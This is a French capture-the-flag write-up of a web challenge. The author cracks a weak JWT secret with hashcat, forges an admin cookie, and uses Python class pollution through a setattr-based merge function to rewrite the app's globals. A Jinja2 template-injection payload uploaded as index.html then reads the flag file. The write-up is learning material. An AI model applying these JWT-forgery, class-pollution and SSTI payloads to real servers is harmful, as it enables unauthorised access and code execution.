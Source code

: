 # Système Central de Dépot (SCD)
> Auteur : Al-oxos

## Recon

La description du challenge nous indique qu'un concurrent vient de lancer un site web de cloud permettant d'uploader des fichiers.
Il est également précisé que nous allons devoir compromettre le concurrent pour récupérer l'accès à des données senbibles.
Nous pouvons alors assez simplement en déduire que le challenge va consister à trouver un moyen d'obtenir une exécution de code arbitraire sur le site web du concurrent pour récupérer des informations sensibles sur la machine.
Il est également important de noter que nous disposons des sources de l'application WEB qui auraient été récupérées suite à une fuite de données.

En nous rendant sur l'application, nous pouvons voir différentes pages relativement vide, dont une page d'upload de fichiers, une page d'accueil et une page pour modifier une whitelist à laquelle nous n'avons pas accès car nous ne sommes pas administrateurs.

![Page d'accueil](accueil.png)

![Page d'upload](upload.png)

![Page whitelist](erreur.png)

Aucune conclusion intéressante ne peut être tirée de ces pages, il va donc falloir regarder le code source de l'application pour trouver des informations intéressantes.
En analysant le code source de l'applications, nous voyons rapidement du code qui va nous intéresser.
Premièrement, il existe un décorateur permettant de gérer un token jwt (présent dans les cookies du navigateurs) qui est utilisé pour vérifier si un utilisateur est administrateur ou non lors de l'accès à la page de modification de la whitelist.
Un commentaire présent dans le code ne nous laisse pas indifférents et très rapidement nous comprenons que le token jwt est signé avec une clé secrète faible (et donc facilement crackable) via des outils tels que hashcat ou jwt_tool.

Le commentaire en question : 
```python
app.config['SECRET_KEY'] = 'REDACTED' # J'ai caché la clé secrète pour des raisons de sécurité, mais il faudrait la changer en production car elle n'est pas du tout robuste...
```

Et le décorateur : 
```python
def jwt_required_admin(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        token = request.cookies.get('jwt_token')
        if not token:
            flash("Token manquant", "error")
            return redirect('/')
        try:
            decoded_token = jwt.decode(token, app.config['SECRET_KEY'], algorithms=["HS256"])
            if decoded_token.get("role") != "admin": #Gestion du role administrateur ici !!
                flash("Accès refusé, vous n'êtes pas admin", "error") 
                return redirect('/')
        except jwt.InvalidTokenError:
            flash("Token invalide", "error")
            return redirect('/')
        return f(*args, **kwargs)
    return decorated_function
```

Après utilisation d'hashcat avec la wordlist rockyou, nous trouvons presque instantanément la clé secrète : `iloveu`
Nous pouvons alors crafter un token jwt admin en le signant avec cette clé et en passant rôle à admin via JWT.io par exemple.
Nous obtenons ainsi l'accès à la page de modification de la whitelist.

![Page whitelist](whitelist.png)

Allons désormais analyser la logique de l'application, car nous n'avons ici quasiment aucune connaissance sur le fonctionnement de l'application et ce qu'elle permet.
Assez rapidement, nous comprenons que l'application permet d'uploader des fichiers, que deux variables globales `Dev` et `path` sont utilisées pour déterminer si l'application est en mode développement et le répertoire dans lequel les fichiers sont sauvegardés ainsi qu'une classe `ExtensionValidator` permettant de gérer les extensions autorisées par l'application.
La page de whitelist à laquelle nous avons désormais accès nous permet d'ailleurs de modifier cette classe instancée dans le code source de l'application en utilisant la fonction merge définie dans le fichier `utils.py`.
Bien que cela puisse sembler un petit peu archaïque, cette fonction est vulnérable à une **Class Pollution** qui peut permettre en plus de modifier les variables deja définies dans notre classe, de modifier également des attributs de l'application python (comme les variables globales par exemple) en raison de l'utilisation de setattr et getattr dans la fonction merge.

Pour plus d'informations sur les pollutions de classes : (Un blogpost très pertinant)[https://blog.abdulrah33m.com/prototype-pollution-in-python/]

```python
def merge_config(src, dst):
    for key, value in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(key) and isinstance(value, dict):
                merge_config(value, dst.get(key))
            else:
                dst[key] = value
        elif hasattr(dst, key) and isinstance(value, dict):
            merge_config(value, getattr(dst, key))
        else:
            setattr(dst, key, value) # Si on ajoute une entrée inconnu dans le merge, on va créer un attribut de classe avec le nom de l'entrée et la valeur de l'entrée, cela permet de réécrire des variables globales par exemple
```

Nous pouvons alors réaliser une **Class Pollution** pour modifier les variables globales `Dev` et `path` et ainsi changer le répertoire dans lequel les fichiers sont sauvegardés, ainsi que modifier le comportement de l'application puisque nous pourrons bypasser l'ajout automatique de `.txt` derrière les fichiers uploadés si Dev est true.

```python
filename = uploaded_file.filename
file_extension = filename.split('.')[-1]

if not any(file_extension in getattr(validator, category, []) for category in vars(validator) if not category.startswith('__')):
    flash("Extension de fichier non autorisée", "error")
    return redirect('/upload')

if not dev:
    filename = f"{filename}.txt"
```

## Challenge solve

Maintenant que nous savons qu'il est possible d'injecter un fichier avec l'extension de notre choix si nous modifions la whitelist tout cela sans que l'extension ne soit append de .txt (car nous pouvons passer Dev est désormais True) et que nous pouvons controler le répertoire dans lequel ce fichier sera sauvegardé (dans les répertoires enfants de l'application, soit uploads, templates ou static dans notre cas) grâce à notre **Class Pollution**, il ne nous reste plus qu'à trouver un moyen d'exécuter du code arbitraire sur le serveur en uploadant un fichier qui pourrait être interprété par le serveur.
Sachant que le serveur utilise Flask et donc Jinja2 pour le templating, nous pouvons essayer d'uploader un fichier .html contenant une SSTI Jinja2 et l'uploader dans un fichier que l'application utilise, par exemple `index.html`.

Nous débutons par réaliser notre **Class Pollution** en modifiant les variables globales `Dev` et `path` et en ajoutant l'extension `.html` à la whitelist. Voila le payload permettant de réaliser cela.

```json
{
	"image": ["jpg", "jpeg", "png"],
 	"report": "pdf",
 	"usefull": ["json","html"],
    "__class__":{
        "__init__":{
            "__globals__":{
                "dev":"True",
                "path": "templates/"
                }
            }
        }
}
```

Une fois notre payload envoyé grâce à notre accès administrateur, il ne nous reste plus qu'à uploader un fichier index.html contenant une SSTI Jinja2.

Payload : 
```html
<html>
    <body>
        {{ request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read() }}
    </body>
</html>
```

En rafraichissant la page (sur la route /) et grâce à la présence de la ligne 
```python
app.config['TEMPLATES_AUTO_RELOAD'] = True
```
dans le code source qui permet d'empêcher flask de mettre en cache les fichiers de templating, nous pouvons voir que le payload a bien fonctionné et que nous avons récupéré le flag.

![flag](flag.png)

Une idée assez pertinente aurait également pu être d'uploader un fichier (par exemple crontab) afin de réécrire celui sur le serveur et exécuter le script de notre choix à intervalle régulier. Cela n'est pas possible en raison de la fonction `safe_path_join` qui empêche de remonter dans l'arborescence des répertoires de l'application (enfin j'espere).
